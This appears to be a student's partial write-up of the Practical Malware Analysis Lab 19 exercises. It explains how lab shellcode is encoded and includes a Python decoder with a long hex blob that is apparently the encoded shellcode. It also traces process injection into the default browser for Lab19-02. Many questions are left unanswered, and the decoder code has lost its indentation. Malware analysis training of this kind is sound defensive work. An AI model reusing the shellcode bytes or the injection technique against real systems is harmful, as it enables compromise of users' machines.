


Practical Malware Analysis - Lab 19
In these labs, we’ll use what we’ve covered in Chapter 19 to analyze samples inspired by real shellcode. Because a debugger cannot easily load and run shellcode directly, we’ll use a utility called shellcode_launcher.exe to dynamically analyze shellcode binaries. You’ll find instructions on how to use this utility in Chapter 19 and in the detailed analyses in Appendix C.
Lab 19-1
Analyze the file Lab19-01.bin using shellcode_launcher.exe.
Q1: How is the shellcode encoded?
Opening in HxD, we can see the NOP sled 41 (opcode for inc ecx) which are used typically in bufferoverflows
After that ,we got 0x18Dh(397 in decimal) in ecx then jmp 21F
Which first calls loc_208 (which is the decoding routine), the decoding routine puts the next EIP points to after the call to esi then to edi(safe copy puts that again in the stack) and to al(via lodsb) and to dl dl = [SI]- 41 shl dl, 4 al = (([ESI] ) - 41)+ dl =
then store EAX to [EDI]

Running
shellcode_launcher.exe -i Lab19-01.bin -bp
Then setting x32dbg as JIT
here is a code to decode it
def sub_208(data):
esi = len(data) - 1
stack = []
edi = esi
while esi >= 0:
al = data[esi]
esi -= 1
dl = al - ord('A')
dl = dl << 4
al = data[esi]
esi -= 1
al = al - ord('A') + dl
stack.append(al)
edi -= 1
return bytes(stack)
input_data = bytearray.fromhex('494A4F4649424F4D45414141414141414F4A444441424141414146474648494C48454345414D44425050504D44424D414B4D44494F414845414B4D424D50414E41424D484F4A4F50505050505049504A50494650464F4D43414541414741494C474D4345434543494C4546444D494C46454146484941424F4B494C454B4249494C464B434141424F4C4F44434B454A494C4445494C41424F4F46474F494C4C50505050445050444C45454345434948464F4D494C464B434541424F4C4747494C414D454C494C464B424D41424F4C494C4145494C41424F494F4A414341414141414142424D41494A45454345424D47424D4341494141464744424D414745494C4541444149464D4148494150494C4541414D494C4841424D4B4E494C454141494F4A414641414141414F4A504C505050504650464F4D44464C4F494E4A5050505049504A4D43474949454F414F4F4D46434F494949415050504950494A4546504D47494D42484A4F464C4946434F4948435050505049444C45454345434948464F4D494C464B434541424F4C4747494C414D454C494C464B424D41424F4C494C4145494C41424F494F4A414341414141414142424D41494A45454345424D47424D4341494141464744424D414745494C4541444149464D4148494150494C4541414D494C4841424D4B4E494C454141494F4A414641414141414F4A504C505050504650464F4D44464C4F494E4A5050505049504A4D43474949454F414F4F4D46434F494949415050504950494A4546504D47494D42484A4F464C4946434F4948435050505049444C45454345434948464F4D494C464B434541424F4C4747494C414D454C494C464B424D41424F4C494C4145494C41424F494F4A414341414141414142424D41494A45454345424D47424D4341494141464744424D41474549')
output_data = sub_208(input_data)
print(output_data.hex().upper())
Q2: Which functions does the shellcode manually import?
Running this command:
scdbg -f Lab19-01.bin -findsc

Q3: What network host does the shellcode communicate with?
Q4: What filesystem residue does the shellcode leave?
Q5: What does the shellcode do?
Lab 19-1
The file Lab19-02.exe contains a piece of shellcode that will be injected into another process and run. Analyze this file.
Q1: What process is injected with the shellcode?
Analysis of exe in ida, first it starts with excalating privilege
then, it pushes argument Data to call 401000 which is used later , so that call puts something in Data
401000 opens registery “HKEY_CLASSES_ROOTHTTPshellopencommand”. This registry key configures your systems default browser, and the program specified

queries the value there and puts it into Data

then calls 401180 with that Data (which contains the default browser) and another parameter processID which is used later
in 401180 it create process with the Data and put the PID to processID

then calls 401230(likely the injector) with the PID and an offset (which is likely the shellcode)

401230 it process injects the default browser with lpBaseAddress which the offset given
going to the offset we see undefined data
pressing c, we see the unpacker which gets address starting from 407048 (with call then pop) then loops over this data XORing it with 0xE7 for range 0x18F
xor Then saving to file and open it in scdbg(failed have to be dynamic analysis)

opening in x32dbg and set bp and writeprocessmemory to dump the injected shellcode we see our shellcode at 407030 at edx
following in dump
we get the imports
Q2: Where is the shellcode located?
Q3: How is the shellcode encoded?
Q4: Which functions does the shellcode manually import?
Q5: What network hosts does the shellcode communicate with?
Q6: What does the shellcode do?